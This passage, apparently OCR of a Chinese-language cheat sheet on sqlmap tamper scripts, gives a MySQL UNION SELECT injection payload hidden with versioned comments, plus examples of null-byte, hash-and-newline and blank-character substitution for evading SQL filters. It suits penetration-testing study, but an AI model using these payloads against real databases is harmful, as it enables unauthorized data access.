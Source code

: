 "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"
要求:
·MySQL < 5.1
```
```
脚本名：space2morehash.py
作用：空格替换为#号以及更多随机字符串换行符
例子:
1 AND 9227=9227
1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227
要求:
·MySQL >= 5.1.13
```
```
脚本名：appendnullbyte.py
作用：在有效负荷结束位置加载零字节字符编码
例子:
('1 AND 1=1')
'1 AND 1=1%00'
要求:
·Microsoft Access
```
```
脚本名：ifnull2ifisnull.py
作用：绕过对IFNULL 过滤。替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’
例子:
('IFNULL(1, 2)')
'IF(ISNULL(1),2,1)'
要求:
·MySQL
·SQLite (possibly)
·SAP MaxDB (possibly)
```
```
脚本名：space2mssqlblank.py(mssql)
作用：空格替换为其它空符号
例子:
SELECT id FROM users
SELECT%08id%02FROM%0Fusers
要求:
·Microsoft SQL Server

# ASCII table:
#      SOH           01            start of heading
#      STX          02             start of text
#      ETX          03            end of text
#      EOT          04            end of tra
nsmission
#      ENQ          05            enquiry
#      ACK          06            acknowledge
#      BEL          07            bell